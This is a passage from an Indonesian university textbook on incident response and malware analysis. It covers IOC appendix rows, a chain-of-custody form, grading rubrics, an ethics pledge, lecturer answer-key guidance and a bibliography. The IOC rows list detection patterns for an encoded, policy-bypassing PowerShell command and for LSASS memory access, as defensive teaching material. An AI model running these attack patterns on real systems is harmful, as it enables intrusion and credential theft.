| 2 | Command Pattern | powershell.exe -NoP -Exec Bypass -E [base64] | Windows | T1059.001 |
| 3 | LSASS Access | Non-system process accessing lsass.exe memory | Windows | T1003.001 |

## CATATAN PENGGUNAAN
- IOC ini diklasifikasikan TLP:AMBER — hanya untuk distribusi internal dan trusted CSIRT partners
- IOC mungkin berubah seiring investigasi — selalu gunakan versi terbaru
- False positive rate per tipe: IP/Domain: MEDIUM (perlu konteks), Hash: LOW (biasanya akurat)
```

---

## LAMPIRAN E — FORMULIR CHAIN OF CUSTODY

```markdown
# FORMULIR CHAIN OF CUSTODY EVIDENCE DIGITAL

**Nomor Evidence:** [EVD-TAHUN-NOMOR]
**Kasus/Insiden ID:** INC-[TAHUN]-[NOMOR]

---

## DESKRIPSI EVIDENCE

| Field | Detail |
|---|---|
| Tipe Evidence | Memory Dump / Disk Image / Log File / Network Capture |
| Deskripsi | |
| Ukuran | bytes |
| MD5 Hash | |
| SHA-256 Hash | |
| Tanggal/Waktu Pengumpulan | [DD/MM/YYYY HH:MM:SS UTC] |
| Sistem Sumber | [Hostname / IP] |
| Lokasi Fisik/Logis | |
| Dikumpulkan Menggunakan | [Tool + Versi] |

---

## CHAIN OF CUSTODY LOG

| # | Tanggal/Waktu | Dari | Kepada | Tujuan Transfer | Tanda Tangan Penyerah | Tanda Tangan Penerima |
|---|---|---|---|---|---|---|
| 1 | [Waktu pengumpulan] | [Sistem sumber] | [Analis yang mengumpulkan] | Initial collection | — | [Tanda tangan] |
| 2 | | | | | | |

---

## KONDISI PENYIMPANAN
- Lokasi penyimpanan: [Path / Server / Media]
- Akses terbatas kepada: [Nama anggota tim yang memiliki akses]
- Enkripsi: Ya/Tidak — Metode: [AES-256 / dll.]
- Backup evidence: [Path backup]

---

## PERNYATAAN INTEGRITAS
Saya menyatakan bahwa evidence di atas dikumpulkan sesuai prosedur yang berlaku, 
bahwa hash yang tercantum akurat pada saat pengumpulan, dan bahwa evidence tidak 
dimodifikasi sejak pengumpulan.

Dikumpulkan oleh: _________________________ Tanggal: ______________
Jabatan: _________________________
```

---

## LAMPIRAN F — RUBRIK PENILAIAN

### Eval-1 (10%): Pemahaman CSIRT, Lifecycle, Taxonomy, Etika
| Kriteria | Excellent (A) | Good (B) | Satisfactory (C) | Needs Improvement |
|---|---|---|---|---|
| Ketepatan konsep CSIRT | Definisi, tipe, dan peran lengkap dan akurat | Sebagian besar benar, minor error | Konsep dasar dipahami, beberapa error | Konsep fundamental tidak dipahami |
| IR Lifecycle | Semua fase dijelaskan dengan akurat dan detail | Fase-fase dipahami, kurang detail | Urutan benar tapi penjelasan dangkal | Fase tidak lengkap atau urutan salah |
| Taxonomy insiden | Klasifikasi akurat menggunakan kerangka NIST | Sebagian besar akurat | Klasifikasi dasar benar | Taxonomy tidak diterapkan |
| Etika dan legalitas | Analisis mendalam dengan referensi UU relevan | Prinsip etika dipahami dengan baik | Etika dasar dipahami | Dimensi etika tidak dipertimbangkan |

### Eval-2 (20%): Triage, Timeline, IOC, Root Cause
| Kriteria | Excellent (A) | Good (B) | Satisfactory (C) | Needs Improvement |
|---|---|---|---|---|
| Kualitas timeline | Lengkap, akurat UTC, semua sumber diintegrasikan | Sebagian besar lengkap, minor gaps | Timeline ada tapi tidak komprehensif | Timeline tidak terstruktur |
| IOC extraction | Semua tipe IOC dengan confidence dan sumber | IOC lengkap, kurang detail konteks | IOC ada tapi tidak semua tipe | IOC sangat minim |
| Root cause hypothesis | Terdukung evidence, confidence justified, gaps diidentifikasi | Hipotesis masuk akal, kurang evidence | Hipotesis ada, basis lemah | Tidak ada hipotesis terstruktur |
| Dokumentasi | Format profesional, dapat diaudit | Dokumentasi baik, minor gaps | Dokumentasi ada tapi tidak konsisten | Dokumentasi tidak memadai |

### Eval-3 (25%): Malware Analysis — Static + Dynamic + TTP Mapping
| Kriteria | Excellent (A) | Good (B) | Satisfactory (C) | Needs Improvement |
|---|---|---|---|---|
| Static analysis | Semua aspek (hash, strings, PE, entropy) dengan interpretasi yang tepat | Sebagian besar aspek dengan interpretasi baik | Aspek utama dianalisis | Analisis sangat terbatas |
| Behavioral analysis | Interpretasi komprehensif: process tree, file, registry, network | Sebagian besar aspek diinterpretasikan | Behavioral report dibaca, interpretasi terbatas | Tidak dapat menginterpretasikan hasil |
| ATT&CK mapping | ≥7 techniques dipetakan dengan evidence yang tepat | 5-6 techniques dengan evidence | 3-4 techniques | <3 atau tanpa evidence |
| Keselamatan lab | Prosedur keselamatan diikuti dan didokumentasikan | Sebagian besar prosedur diikuti | Prosedur dasar diikuti | Prosedur tidak diikuti |

### Eval-4 (20%): Containment, Recovery, Komunikasi
| Kriteria | Excellent (A) | Good (B) | Satisfactory (C) | Needs Improvement |
|---|---|---|---|---|
| Containment decision | Justified, considers evidence + business, documented | Keputusan baik, kurang justifikasi | Keputusan ada tapi tidak optimal | Keputusan tidak berdasar |
| Eradication completeness | Semua persistence dihapus, diverifikasi | Sebagian besar, verifikasi kurang | Upaya eradication ada | Eradication tidak sistematis |
| Communication quality | Sesuai audiens, akurat, professional, memenuhi UU PDP | Baik, sedikit gap dalam kesesuaian audiens | Komunikasi ada, kurang targeted | Komunikasi tidak sesuai |
| Hardening recommendations | Spesifik, prioritized, terhubung ke temuan insiden | Baik, kurang spesifik | Ada tapi generic | Tidak terhubung ke temuan |

### Eval-5/EAS (25%): Capstone CSIRT Report
| Kriteria | Excellent (A) | Good (B) | Satisfactory (C) | Needs Improvement |
|---|---|---|---|---|
| Kelengkapan report | Semua bagian lengkap, terintegrasi dengan baik | Sebagian besar lengkap | Struktur ada, konten kurang | Tidak lengkap |
| Akurasi teknis | Semua klaim teknis didukung evidence | Sebagian besar akurat | Beberapa error teknis | Banyak error teknis |
| Executive briefing | Jelas, non-teknis yang tepat, action-oriented | Baik, sedikit terlalu teknis | Dapat dipahami, kurang professional | Tidak sesuai audiens |
| Lessons learned | Blameless, sistemik, actionable dengan owner dan timeline | Baik, kurang spesifik | Ada tapi tidak actionable | Tidak ada atau menyalahkan individu |
| Koordinasi tim | Semua anggota berkontribusi merata, koordinasi terdokumentasi | Kontribusi cukup merata | Beberapa anggota mendominasi | Kontribusi tidak merata |

---

## LAMPIRAN G — PERNYATAAN ETIKA PRAKTIKUM

```
PERNYATAAN ETIKA PRAKTIKUM
MATA KULIAH: INCIDENT RESPONSE & MALWARE ANALYSIS (MK-E-03)
PROGRAM STUDI MAGISTER TERAPAN FORENSIK DIGITAL DAN KEAMANAN SIBER
POLITEKNIK ELEKTRONIKA NEGERI SURABAYA

Nama Mahasiswa : _______________________________
NIM            : _______________________________
Semester       : _______________________________

Dengan menandatangani pernyataan ini, saya menyatakan bahwa:

1. BATASAN LINGKUNGAN PRAKTIKUM
   Saya memahami dan setuju bahwa seluruh kegiatan praktikum yang melibatkan
   analisis malware, pengumpulan bukti digital, dan simulasi respons insiden
   HANYA dilakukan dalam lingkungan laboratorium yang secara resmi disediakan
   dan diotorisasi oleh dosen pengampu mata kuliah ini.

2. LARANGAN PENGGUNAAN DI LUAR LAB
   Saya tidak akan menggunakan pengetahuan, tools, atau teknik yang dipelajari
   dalam mata kuliah ini untuk:
   a. Mengakses sistem, jaringan, atau data yang tidak saya miliki izin aksesnya
   b. Mengintercept atau memantau komunikasi tanpa otorisasi yang sah
   c. Mengganggu, merusak, atau menolayani (deny service) terhadap sistem apapun
   d. Mendistribusikan, menyebarkan, atau membagikan sampel malware kepada
      siapapun di luar konteks akademik yang diotorisasi

3. PENANGANAN SAMPEL MALWARE
   Saya memahami bahwa semua sampel malware yang digunakan dalam praktikum:
   a. Hanya boleh dianalisis dalam VM terisolasi yang disediakan lab
   b. Tidak boleh dieksekusi di luar environment lab yang otorisasi
   c. Tidak boleh dibagikan kepada pihak lain tanpa persetujuan dosen
   d. Harus diperlakukan sebagai bahan berbahaya yang memerlukan penanganan hati-hati

4. PRIVASI DAN DATA
   Saya tidak akan menggunakan teknik yang dipelajari untuk melanggar privasi
   individu atau organisasi. Dalam setiap skenario kasus, saya akan menggunakan
   dataset yang sudah di-anonimisasi dan tidak mencoba mengidentifikasi subjek
   data nyata.

5. PELAPORAN INSIDEN
   Jika dalam praktikum saya secara tidak sengaja menemukan kerentanan nyata,
   data sensitif, atau aktivitas mencurigakan, saya akan segera melaporkannya
   kepada dosen pengampu dan tidak akan mencoba mengeksploitasi atau menyebarkan
   informasi tersebut.

6. TANGGUNG JAWAB HUKUM
   Saya memahami bahwa pelanggaran terhadap pernyataan ini dapat berakibat pada:
   a. Sanksi akademik sesuai peraturan PENS
   b. Tindakan hukum berdasarkan UU ITE No. 11/2008 jo. 19/2016
   c. Tindakan hukum berdasarkan UU PDP No. 27/2022
   d. Pertanggungjawaban perdata kepada pihak yang dirugikan

7. KOMITMEN PROFESIONAL
   Saya berkomitmen untuk mengembangkan keahlian keamanan siber saya secara
   bertanggung jawab, etis, dan dalam batas hukum yang berlaku, untuk tujuan
   melindungi sistem dan data, bukan untuk merugikan.

Dibuat di: _________________________ Tanggal: _______________________

Tanda Tangan Mahasiswa: _________________________

Mengetahui, Dosen Pengampu: _________________________
```


---

## KUNCI JAWABAN GLOBAL DAN CATATAN DOSEN

### Panduan Penggunaan Kunci Jawaban

Kunci jawaban dalam buku ini dirancang sebagai panduan untuk dosen dan sebagai referensi mandiri bagi mahasiswa. Untuk soal esai dan studi kasus, jawaban yang diberikan adalah *kerangka* jawaban yang komprehensif — mahasiswa tidak harus menjawab dengan kata-kata yang identik, tetapi jawaban yang dinilai baik harus mencakup elemen-elemen substansial yang disebutkan.

**Kriteria evaluasi umum untuk soal C4-C5:**
- **C4 (Analisis):** Kemampuan memecah masalah menjadi komponen, mengidentifikasi hubungan sebab-akibat, membandingkan alternatif dengan justifikasi
- **C5 (Evaluasi):** Kemampuan membuat penilaian berdasarkan kriteria, mempertahankan posisi dengan argumen, mengkritisi pendekatan yang lemah

---

### Ringkasan Kunci Jawaban per Bab

Setiap bab telah menyertakan kunci jawaban dalam Bagian 10 (Kunci Jawaban dan Pembahasan). Di bawah ini adalah panduan tambahan untuk dosen tentang variasi jawaban yang dapat diterima.

**Bab 1-3 (Eval-1):** Soal berfokus pada pemahaman konseptual CSIRT, lifecycle, etika, dan legalitas. Jawaban yang baik harus menunjukkan kemampuan mengaitkan konsep dengan regulasi Indonesia yang relevan (UU ITE, UU PDP) dan standar internasional (NIST SP 800-61, FIRST).

**Bab 4-6 (Eval-2):** Soal berfokus pada kemampuan analitis dalam triage, timeline, dan IOC. Jawaban yang baik harus menunjukkan: order of volatility yang tepat, timeline dalam UTC, IOC yang dikategorikan dengan benar, dan root cause hypothesis yang didukung evidence — bukan assertion tanpa dasar.

**Bab 7-9 (Eval-3):** Soal berfokus pada kemampuan malware analysis. Jawaban yang baik harus menunjukkan pemahaman tentang keterbatasan setiap teknik (strings extraction tidak cukup untuk packed malware, sandbox dapat di-evade), dan penulisan YARA/Sigma yang tidak terlalu spesifik (hanya satu hash) atau terlalu generik (banyak FP).

**Bab 10-11 (Eval-4):** Soal berfokus pada kemampuan pengambilan keputusan dalam containment dan recovery. Jawaban yang baik harus menunjukkan pertimbangan multidimensional: teknis, bisnis, hukum, dan etika. Tidak ada jawaban tunggal yang "benar" untuk beberapa soal studi kasus — yang dinilai adalah kualitas reasoning.

**Bab 12-14 (Eval-5/EAS):** Capstone — dinilai berdasarkan rubrik di Lampiran F. Penekanan pada: integrasi temuan, kualitas komunikasi kepada audiens berbeda, dan blameless lessons learned.

---

### Soal-Soal yang Memerlukan Diskusi Kelas

Pertanyaan refleksi profesional di setiap bab sengaja dirancang tanpa jawaban tunggal yang benar. Beberapa yang paling produktif untuk diskusi kelas:

1. **Bab 2, Refleksi:** Kapan memutuskan bahwa mendapat lebih banyak informasi dengan membiarkan attacker beroperasi lebih lama dibenarkan vs. kewajiban untuk melindungi sistem segera? Ini adalah dilema yang tidak memiliki jawaban universal — bergantung pada jenis data, jenis attacker, dan kapabilitas tim.

2. **Bab 11, Refleksi:** Keseimbangan antara kewajiban UU PDP untuk notifikasi cepat vs. risiko memberikan informasi kepada attacker tentang apa yang sudah kita ketahui. Praktik terbaik: notifikasi regulator tepat waktu (dalam 14 hari) dengan fakta yang sudah dikonfirmasi — tidak overclaim tentang apa yang diketahui dan tidak diketahui.

3. **Bab 14, Refleksi:** Apa yang TIDAK boleh ada dalam laporan IR? Opini subjektif tentang individu, spekulasi yang tidak didukung evidence, informasi yang dapat membahayakan privasi orang yang tidak terlibat dalam insiden, dan detail yang secara operasional memberikan "blueprint" kepada attacker jika laporan bocor.

---

## DAFTAR PUSTAKA

### Pustaka Utama (dari RPS)

1. **National Institute of Standards and Technology (NIST).** (2012). *Computer Security Incident Handling Guide* (Special Publication 800-61 Revision 2). U.S. Department of Commerce. https://doi.org/10.6028/NIST.SP.800-61r2

2. **National Institute of Standards and Technology (NIST).** (2013). *Guide to Malware Incident Prevention and Handling for Desktops and Laptops* (Special Publication 800-83 Revision 1). U.S. Department of Commerce. https://doi.org/10.6028/NIST.SP.800-83r1

3. **Sikorski, M., & Honig, A.** (2012). *Practical Malware Analysis: The Hands-On Guide to Dissecting Malicious Software*. No Starch Press.

4. **Monnappa K.A.** (2018). *Learning Malware Analysis: Explore the concepts, tools, and techniques to analyze and investigate Windows malware*. Packt Publishing.

5. **MITRE Corporation.** (2023). *MITRE ATT&CK Enterprise Matrix* (v14). https://attack.mitre.org/

6. **FIRST (Forum of Incident Response and Security Teams).** (2019). *CSIRT Services Framework v2.1*. https://www.first.org/standards/frameworks/csirts/csirt_services_framework_v2.1.pdf

### Pustaka Pendukung — Standar dan Framework

7. **National Institute of Standards and Technology (NIST).** (2018). *Framework for Improving Critical Infrastructure Cybersecurity (NIST Cybersecurity Framework)* (Version 1.1). U.S. Department of Commerce.

8. **SANS Institute.** (2020). *Incident Handler's Handbook*. SANS Reading Room. https://www.sans.org/reading-room/whitepapers/incident/

9. **Cichonski, P., Millar, T., Grance, T., & Scarfone, K.** (2012). *NIST SP 800-61 Rev. 2 — Computer Security Incident Handling Guide*. NIST. (sama dengan no.1, diterbitkan ulang untuk referensi spesifik)

10. **Bianco, D.J.** (2013). *The Pyramid of Pain* [Blog post]. http://detect-respond.blogspot.com/2013/03/the-pyramid-of-pain.html

11. **Luttgens, J., Pepe, M., & Mandia, K.** (2014). *Incident Response & Computer Forensics* (3rd ed.). McGraw-Hill Education.

12. **International Organization for Standardization (ISO).** (2022). *ISO/IEC 27035-1: Information technology — Information security incident management — Part 1: Principles and process*. ISO.

13. **International Organization for Standardization (ISO).** (2016). *ISO/IEC 27037: Information technology — Security techniques — Guidelines for identification, collection, acquisition and preservation of digital evidence*. ISO.

### Pustaka Pendukung — Tools dan Teknik

14. **IETF (Internet Engineering Task Force).** (2002). *RFC 3227: Guidelines for Evidence Collection and Archiving*. https://tools.ietf.org/html/rfc3227

15. **Russinovich, M., Solomon, D., & Ionescu, A.** (2012). *Windows Internals* (6th ed.). Microsoft Press.

16. **Volatility Foundation.** (2023). *The Volatility Framework — Volatile Memory Artifact Extraction Utility Framework*. https://www.volatilityfoundation.org/

17. **YARA Project.** (2023). *YARA Documentation* (v4.x). https://yara.readthedocs.io/

18. **SigmaHQ.** (2023). *Sigma: Generic Signature Format for SIEM Systems*. https://github.com/SigmaHQ/sigma

19. **REMnux Project.** (2023). *REMnux: A Linux Toolkit for Malware Analysis*. https://remnux.org/

20. **Cuckoo Sandbox.** (2023). *Cuckoo Sandbox Documentation*. https://cuckoo.readthedocs.io/

### Pustaka Pendukung — Regulasi Indonesia

21. **Republik Indonesia.** (2008). *Undang-Undang Nomor 11 Tahun 2008 tentang Informasi dan Transaksi Elektronik*. Lembaran Negara Republik Indonesia Tahun 2008 Nomor 58.

22. **Republik Indonesia.** (2016). *Undang-Undang Nomor 19 Tahun 2016 tentang Perubahan Atas Undang-Undang Nomor 11 Tahun 2008 tentang Informasi dan Transaksi Elektronik*. Lembaran Negara Republik Indonesia Tahun 2016 Nomor 251.

23. **Republik Indonesia.** (2022). *Undang-Undang Nomor 27 Tahun 2022 tentang Perlindungan Data Pribadi*. Lembaran Negara Republik Indonesia Tahun 2022 Nomor 196.

24. **Republik Indonesia.** (1999). *Undang-Undang Nomor 36 Tahun 1999 tentang Telekomunikasi*. Lembaran Negara Republik Indonesia Tahun 1999 Nomor 154.

25. **Badan Siber dan Sandi Negara (BSSN).** (2020). *Pedoman Teknis Penanganan Insiden Siber Sektor Pemerintah*. BSSN.

### Pustaka Pendukung — Referensi Lanjutan

26. **Microsoft.** (2023). *Windows Security Event Log Reference*. Microsoft Docs. https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/

27. **SwiftOnSecurity / Sysmon.** (2023). *Sysmon Configuration Reference*. https://github.com/SwiftOnSecurity/sysmon-config

28. **Strom, B. E., Applebaum, A., Miller, D. P., Nickels, K. C., Pennington, A. G., & Thomas, C. B.** (2018). *MITRE ATT&CK: Design and Philosophy*. Technical Report, The MITRE Corporation. https://attack.mitre.org/docs/ATTACK_Design_and_Philosophy_March_2020.pdf

29. **Brinson, A., Robinson, A., & Rogers, M.** (2006). A cyber forensics ontology: Creating a new approach to studying cyber forensics. *Digital Investigation*, 3, 37–43.

30. **Pernet, C.** (2021). *Threat Intelligence: Collecting, Analysing, Evaluating*. MWR InfoSecurity / F-Secure.

---

*Daftar pustaka ini disusun berdasarkan pustaka utama yang tertera dalam RPS MK-E-03 dan diperlengkap dengan referensi otoritatif yang relevan. Mahasiswa dianjurkan untuk mengakses versi terbaru dari semua dokumen standar dan framework, karena revisi dan pembaruan reguler diterbitkan oleh badan yang bersangkutan.*

---

# PENUTUP

Buku ajar ini disusun untuk mendukung capaian pembelajaran Mata Kuliah Incident Response & Malware Analysis (MK-E-03) pada Program Studi Magister Terapan Forensik Digital dan Keamanan Siber, PENS. Seluruh materi telah diselaraskan dengan RPS yang berlaku, mencakup 16 pertemuan dengan struktur evaluasi yang konsisten: CPMK-1 (10%), CPMK-2 (20%), CPMK-3 (25%), CPMK-4 (20%), dan CPMK-5/EAS (25%).

**Komitmen etika yang menjadi landasan buku ini:**
Seluruh materi dalam buku ini diarahkan untuk tujuan defensif, legal, dan berotorisasi. Analisis malware, forensik digital, dan respons insiden adalah keterampilan yang digunakan untuk melindungi sistem dan organisasi — bukan untuk menyerang atau merusak. Mahasiswa yang menggunakan pengetahuan ini untuk tujuan yang tidak sah akan menghadapi konsekuensi hukum dan etika yang serius. Profesi keamanan siber dibangun di atas kepercayaan — kepercayaan yang harus dijaga dengan integritas tanpa kompromi.

---

*Buku Ajar Incident Response & Malware Analysis (MK-E-03)*
*Program Studi Magister Terapan Forensik Digital dan Keamanan Siber — PENS*
*Diselaraskan dengan RPS MK-E-03 Tahun Akademik 2025/2026*
*Disusun: Juli 2026*

